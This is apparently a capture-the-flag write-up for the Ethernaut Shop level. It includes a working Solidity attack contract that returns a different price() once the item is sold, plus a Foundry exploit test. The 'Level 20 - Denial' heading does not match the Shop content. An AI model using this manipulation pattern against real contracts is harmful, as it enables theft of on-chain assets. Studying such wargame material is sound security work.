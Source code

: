 # Level 20 - Denial

## Objectives

- Get the item from the shop for less than the price asked.

## Contract Overview

The `Shop` contract has a public function called `buy` which allows a buyer to purchase the item at the current price. The function first checks whether the buyer's price is greater than or equal to the current price and whether the item has not already been sold. If both conditions are met, the `isSold` variable is set to true, indicating that the item has been sold, and the `price` variable is updated to the buyer's price.

The `Buyer` interface is used to ensure that the buyer contract implements the `price` function, which is required by the `buy` function in the `Shop` contract.

## Static analysis (slither)

Here are the logs from the slither:

![alt text](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/img/Shop_slither.png)

## Finding the weak spots

The contract defines an interface called `Buyer` but the `buy` function is using `msg.sender`'s address to create an instance. This means that attacker can deploy an malicious contract with a `price()` function in it and it will be called by the `buy()` function when checking the price.

```solidity
  function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
      isSold = true;
      price = _buyer.price();
    }
  }
```

One important thing to note in this contract is that the `price()` function is marked as a `view` function, meaning it cannot modify the contract's state. As a result, we cannot use state variables to return multiple values from this function as we did in the `Elevator` contract. However, we can make external calls to other `view` or `pure `functions to return multiple values.

To return two values from the `price()` function in this contract, we could use the `isSold` variable as a condition to return either the current price value or a higher price value set by a buyer. For example, the updated `price()` function could look like this:

```solidity
   function price() external view returns (uint) {
        return shopContract.isSold() ? 0 : 100;
    }
```

## Potential attack scenario (hypothesis)

One potential attack scenario that could be exploited in the provided contract is the possibility of a attacker using a malicious implementation of the `Buyer` interface to manipulate the `buy()` function and potentially bypass the price check.

For instance, an attacker contract could be implemented to return a false value for the `price()` function, indicating a lower price than what the buyer is actually offering. This could allow the attacker to purchase the item at a lower price than intended.

## Plan of the attack

1. Attacker creates the malicious contract that implemets `price` function of the `Buyer` interface.
2. Attacker calls the `attack` function that calls `buy` function from `Shop` contract.
3. Attacker gets the item from the shop for less than the price asked.

## Malicious contract (ShopAttack.sol)

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./Shop.sol";

contract ShopAttack is Buyer {
    Shop shopContract;

    constructor(address _shopContract) {
        shopContract = Shop(_shopContract);
    }

    // 1. Attacker creates the malicious contract that implemets `price` function of the `Buyer` interface.
    function price() external view returns (uint) {
        return shopContract.isSold() ? 0 : 100;
    }

    // 2. Attacker calls the `attack` function that calls `buy` function from `Shop` contract.
    function attack() external {
        shopContract.buy();
    }
}

```

## Proof of Concept

Here is a simplified version of the unit test exploiting the vulnerability ([complete version here](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/test/21-Shop.t.sol))

```solidity
        // 1. Attacker creates the malicious contract that implemets `price` function of the `Buyer` interface.
        ShopAttack shopAttack = new ShopAttack(address(level));

        emit log_named_uint("Price of item before attack", level.price());

        // 2. Attacker calls the `attack` function that calls `buy` function from `Shop` contract.
        emit log_string("Starting the exploit...");
        shopAttack.attack();

        emit log_named_uint("Price of item after attack", level.price());

        // Test assertion
        assertEq(level.isSold(), true);
```

Here are the logs from the exploit contract:

![alt text](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/img/Shop.png)

## Recommendations

- Never leave interfaces unimplemented and it is a really bad idea to trust implementations by other unknown contracts.
- Even though view and pure functions can not modify the state, they can be manipulated as shown above.
- Never ever trust blindly things that are not under your control.

## References

- [Blog Aditya Dixit](https://blog.dixitaditya.com/series/ethernaut)
- [Blog Stermi](https://stermi.xyz/blog/ethernaut-challenge-20-solution-shop)
- [Blog cmichel](https://cmichel.io/ethernaut-solutions/)
- [D-Squared YT - Ethernaut CTF Series](https://www.youtube.com/watch?v=_ylKN2R_o-Y&list=PLiAoBT74VLnmRIPZGg4F36fH3BjQ5fLnz)
- [Smart Contract Programmer YT - Ethernaut](https://www.youtube.com/playlist?list=PLO5VPQH6OWdWh5ehvlkFX-H3gRObKvSL6)
- [Mastering Ethereum book](https://github.com/ethereumbook/ethereumbook)

## Acknowledgements

The structure of my reports is based on the insights provided by:

- [ChmielewskiKamil](https://github.com/ChmielewskiKamil/ethernaut-foundry)
- [Joran Honig Twitter thread](https://twitter.com/joranhonig/status/1539578735631949825?s=20&t=Kp6iDNXfRKQUBbsb_Yj5SQ)
